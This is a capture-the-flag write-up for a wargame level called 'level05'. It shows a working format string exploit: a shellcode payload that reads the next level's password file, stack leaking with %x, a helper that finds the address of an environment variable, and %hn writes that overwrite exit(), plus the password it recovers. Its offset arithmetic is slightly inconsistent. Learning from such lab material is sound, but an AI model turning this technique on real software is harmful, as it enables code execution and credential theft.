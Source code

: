 # Level05

> For introductory information on this operating system and binary securities, check [here](./analysis.md).

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./gdb.md)). This time we'll use a format string attack to inject a Shellcode at some existing address, here a `exit()` call at address `0x0804 97e0`.

```shell
  export SHELLCODE=$(python -c "print '\x90' * 1000 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass'")
```

> This shellcode was found [here](http://shell-storm.org/shellcode/files/shellcode-73.php) and basically read a file and output its content to standard input.

We'll need to find our input on the stack first:

```shell
 $> (python -c "print 'aaaa' + ' | %x' * 16") | ./level05 
  aaaa | 64 | f7fcfac0 | f7ec3af9 | ffffd2bf | ffffd2be | 0 | ffffffff | ffffd344 | f7fdb000 | 61616161 | 25207c20 | 207c2078 | 7c207825 | 20782520 | 7825207c | 25207c20
```

> `aaaa` is equal to `61616161` in hexadecimal. As we can see, there, our format string is the 10th argument on the stack.

Last step would be to get the actual address of that shellcode in our environment, using the following small program.

```C
  #include <stdio.h>
  #include <stdlib.h>

  int main(int argc, char** argv)
  {
    printf("env address at %p\n", getenv(argv[1]));
    return (0);
  }
```

Finally piece everything together... To make our life easier, we'll split our attack in two part so that overriding the whole address of `exit()` will be faster. We'll override high order bytes first at `exit()` address and low order bytes at `exit()` address + **2**.

```shell
  $> python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%<LOWER_BYTES_OFFSET>c%10$hn" + "%<HIGHER_BYTES_OFFSET>%11$hn"' | ./level05
  ...
  h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

> For example, let's say our shellcode is at adress `0x673f92b6`.
>
> `LOWER_BYTES_OFFSET` is computed as follow: Shellcode lower bytes (`0x92b6` => **37558**) - already printed bytes (address of `exit()` + adress of `exit()`+ **2** => **8**). So **37550**.
>
> `HIGHER_BYTES_OFFSET` is computed as follow: `0xffff` - `LOWER_BYTES_OFFSET` - **8** => **65535** - **37558** - **8** = **27969**

So next user credentials pair is `level06:h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq`.

Check [here](../source.c) for reproduction source-code of this binary.